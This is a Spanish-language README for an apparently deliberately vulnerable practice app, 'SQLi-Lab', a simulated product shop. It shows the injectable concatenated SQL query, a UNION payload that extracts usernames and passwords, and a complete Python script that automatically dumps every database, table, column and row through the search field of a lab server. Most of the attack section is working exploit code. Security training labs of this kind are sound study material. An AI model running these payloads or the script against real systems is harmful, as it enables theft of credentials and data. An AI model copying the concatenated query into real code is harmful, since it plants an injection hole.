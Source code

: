 ## 🚨 SQL Injection (SQLi-Lab)
- Aplicación que simula una tienda de productos.
- Presenta una vulnerabilidad a inyección SQL en la búsqueda de productos.

Este fallo de seguridad es muy crítico y permite que un atacante pueda extraer información de la base de datos en uso.

Esta es la parte crítica del código:

```python
query = "SELECT id, nombre, precio FROM productos WHERE nombre LIKE '%" + name + "%'"
```

Si cerramos la comilla, colamos otra query y comentamos el resto podemos ver información adicional que antes no podíamos ver. Prueba un payload como en la barra de búsqueda de productos:
```sh
' union select user(),(select group_concat(username,':', password) from users),3 -- -
```

Esto mostraría cada uno de los usuarios de la base de datos junto con sus contraseñas. Dependiendo de la información que queramos obtener, cambiaremos el payload a nuestro gusto.

Sin embargo, para no hacerlo todo de forma manual, he desarrollado este script que permite enumerar toda la base de datos de forma automática:

```python
import requests, signal, sys, time
from termcolor import colored


def def_handler(sig, frame):
    print(colored("\n\n[!] Saliendo ....!!!\n\n", "red"))
    sys.exit(1)


signal.signal(signal.SIGINT, def_handler)

# Variables globales
url = "http://192.168.1.60:5000/buscar"

# Extrae todas las bases de datos
def dump_databases():
    params = {
        "nombre": "' union select 1,2, group_concat(schema_name) from information_schema.schemata -- -"
    }

    r = requests.get(url, params=params)
    data = r.json()
    data = data["productos"][-1][2]

    databases = data.split(',')
    return databases

# Extrae todas las tablas de una base de datos
def dump_tables(database):
    params = {
        "nombre": f"' union select 1,2, group_concat(table_name) from information_schema.tables where table_schema='{database}' -- -"
    }

    r = requests.get(url, params=params)
    data = r.json()
    data = data["productos"][-1][2]

    tables = data.split(',')
    return tables

# Extrae todas las columnas de una tabla
def dump_columns(database,table):
    params = {
        "nombre": f"' union select 1,2, group_concat(column_name) from information_schema.columns where table_schema='{database}' and table_name='{table}' -- -"
    }

    r = requests.get(url, params=params)
    data = r.json()
    data = data["productos"][-1][2]

    columnas = data.split(',')
    return columnas

# Extrae el contenido de una tabla
def dump_data(database, table, columns):
    target = ", ':', ".join(columns)
    params = {
        "nombre": f"' union select 1,2, group_concat({target}) from {database}.{table} -- -"
    }

    r = requests.get(url, params=params)
    data = r.json()
    data = data["productos"][-1][2]

    content = data.split(',')
    return content


if __name__ == '__main__':
    databases = dump_databases()
    print(colored(f"\n[*] Bases de datos extraidas: {databases}\n", 'green'))
    database = 'tienda'
    print(colored(f"\n[i] Enumerando la base de datos '{database}':\n", 'red'))
    tables = dump_tables(database)
    print(colored(f"\n[*] Tablas extraidas: {tables}\n", 'yellow'))
    for table in tables:
        print("-------------------------------------------------------------------------------------------------------------------------------------------")
        print(colored(f"\n[i] Enumerando la tabla '{table}':\n", 'red'))
        columns = dump_columns(database, table)
        print(colored(f"\n[*] Columnas extraidas : {columns}\n", 'magenta'))
        content = dump_data(database, table, columns)
        print(colored(f"\n[*] Contenido extraido : {content}\n", 'blue'))
```
